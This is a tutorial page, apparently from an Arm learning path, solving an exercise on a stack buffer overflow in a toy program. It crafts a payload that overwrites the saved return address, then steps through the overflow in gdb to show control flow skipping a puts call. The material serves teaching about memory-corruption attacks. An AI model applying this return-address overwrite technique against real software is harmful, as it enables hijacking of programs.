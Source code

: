 ```yaml
---
title: Redirect control flow - answer to the exercise
weight: 6

### FIXED, DO NOT MODIFY
layout: learningpathall
---
```



One string that could be a solution to exercise 3 at the end of the previous
section is:

```
$'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
```

We created this string by:

1. First filling the string with arbitrary characters for bytes 0 till 15.

2. Starting at byte 16, we fill in the address we want the return address to
   take. One special consideration to take is that we are working on a
   little-endian target. Therefore, we have to reverse the order of the bytes
   of the address in the string.

Let's see if it works:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
0123456789012345
```

Success! The program no longer prints the string
`"The string on the command line was: "`!

Time for a little celebration: 🎉

Now let's check in detail by stepping through the program that this is working
as we expect:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
gdb --args ./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "aarch64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./redirect1...
```

```text { output_lines = "2-30" }
(gdb) break f
Breakpoint 1 at 0x7e4: file redirect1.c, line 8.
```

```text { output_lines = "2-30" }
(gdb) run
Starting program: /armlearningpaths/redirect1 0123456789012345\
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Breakpoint 1, f (src=src@entry=0xfffffffff927 "0123456789012345 \b\252\252\252\252") at redirect1.c:8
8           strcpy(buffer, src);
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
=> 0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x0000000000000002
0xfffffffff580: 0x0000fffffffff590      0x0000aaaaaaaa0814
```

We see that before the buffer overflow in `strcpy` is executed, the stored value
of `x30` on the stack is as it should be: `0xaaaaaaaa0814`.

```text { output_lines = "2-30" }
(gdb) nexti 2
9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
=> 0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x3736353433323130
0xfffffffff580: 0x3534333231303938      0x0000aaaaaaaa0820
```

After the buffer overflow has happened in `strcpy`, the stored value of `x30` on
the stack has changed indeed to the value `oxaaaaaaaa0820`.

```text { output_lines = "2-30" }
(gdb) nexti 3
0x0000aaaaaaaa07f8      9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
=> 0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) stepi
main (argc=<optimized out>, argv=<optimized out>) at redirect1.c:16
16          puts(chars);
```

```text { output_lines = "2-30" }
(gdb) disass
Dump of assembler code for function main:
   0x0000aaaaaaaa07fc <+0>:     stp     x29, x30, [sp, #-32]!
   0x0000aaaaaaaa0800 <+4>:     str     x19, [sp, #16]
   0x0000aaaaaaaa0804 <+8>:     mov     x29, sp
   0x0000aaaaaaaa0808 <+12>:    ldr     x19, [x1, #8]
   0x0000aaaaaaaa080c <+16>:    mov     x0, x19
   0x0000aaaaaaaa0810 <+20>:    bl      0xaaaaaaaa07d4 <f>
   0x0000aaaaaaaa0814 <+24>:    adrp    x0, 0xaaaaaaaa0000
   0x0000aaaaaaaa0818 <+28>:    add     x0, x0, #0x850
   0x0000aaaaaaaa081c <+32>:    bl      0xaaaaaaaa0670 <puts@plt>
=> 0x0000aaaaaaaa0820 <+36>:    mov     x0, x19
   0x0000aaaaaaaa0824 <+40>:    bl      0xaaaaaaaa0670 <puts@plt>
   0x0000aaaaaaaa0828 <+44>:    ldr     x19, [sp, #16]
   0x0000aaaaaaaa082c <+48>:    mov     w0, wzr
   0x0000aaaaaaaa0830 <+52>:    ldp     x29, x30, [sp], #32
   0x0000aaaaaaaa0834 <+56>:    ret
End of assembler dump.
(gdb)
```

And indeed, rather than returning to `0xaaaaaaaa0814`, the instruction after the
function call `bl 0xaaaaaaaa07d4 <f>`; function `f` has returned to
`0xaaaaaaaa0820`, skipping the first call to `puts`.

<!--
```

```text { output_lines = "2-30" }
```
-->